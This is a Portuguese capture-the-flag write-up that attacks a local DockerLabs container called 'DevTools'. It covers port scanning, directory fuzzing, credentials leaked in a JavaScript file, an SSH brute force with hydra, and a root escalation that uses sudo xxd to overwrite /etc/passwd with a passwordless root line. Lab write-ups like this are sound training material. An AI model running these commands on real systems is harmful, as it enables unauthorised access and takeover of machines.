

maq.devtools
MÁQUINA DEVTOOLS
Para utilizar esta máquina devemos primeiro baixar os arquivos e assim implantá-la com Docker.
Baixamos o arquivo da página https://dockerlabs.es/
Para implantar o laboratório executamos da seguinte forma, para que também possamos ver que ele nos diz a direção que teremos, bem como o que fazer quando terminarmos.
COLETA DE INFORMAÇÕES
nmap 172.17.0.2 -A -sS -sC -sV -Pn -p- -T5
Temos duas portas aberta:
22/tcp open ssh OpenSSH 9.2p1 Debian
80/tcp open http Apache httpd 2.4.62 ((Debian))

Vamos fazer um fuzzing para ver se tem pastas ocultas, com a ferramenta gobuster.
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/big.txt -x .txt,.html,.php,.py
Não temos nada de interessante.
Vamos explorar a porta 80: http://172.17.0.2/
Veja que esta pedindo para fazer o login na página.
Vamos explorar o código fonte diretamente pelo link: view-source:http://172.17.0.2/
Veja que temos um arquivo backupp.js.

Ao explorar esse arquivo backupp.js, temos senha e usuário e uma senha antiga.
usuário= chocolate
senha= chocolate
senha antiga= baluleroh
Outra maneira de acessar o código fonte, é diretamente pelo terminal.
Esse comando visualiza o código fonte diretamente pelo terminal:
curl -s http://172.17.0.2
Com esse comando baixamos o código fonte na máquina atacante.
curl -s http://172.17.0.2 -o pagina.html
Comando para baixar o arquivo backupp.js.
curl -s http://172.17.0.2/backupp.js -o backupp.js
Agora vamos testar a senha na página web.
Conseguimos fazer o login na página, mas não temos nada de interessante.
Analisando tudo que conseguimos na exploração, temos uma senha antiga “baluleroh”, então vamos explorar a porta 22 ssh e fazer um ataque de força bruta com hydra, usando essa senha antiga.
hydra -L /usr/share/wordlists/rockyou.txt -p baluleroh ssh://172.17.0.2
Já que conseguimos o usuário e a senha vamos entrar no ssh.
ssh carlos@172.17.0.2
A partir da mensagem contida no arquivo nota.txt, parece que há um arquivo chamado data.bak dentro do diretório de root ( /root). Este arquivo pode conter informações ou credenciais importantes para progredir no desafio.
O usuário carlos tem permissão para executar os comandos /usr/bin/ping e /usr/bin/xxd como root em senha. Vamos explorar essas permissões para escalar privilégios.
Com esse comando podemos editar o usuário root e tirar o x, e podemos ser superusuário com su.
echo root::0:0:root:/root:/bin/bash | sudo xxd | sudo xxd -r - "/etc/passwd"
somos root
R10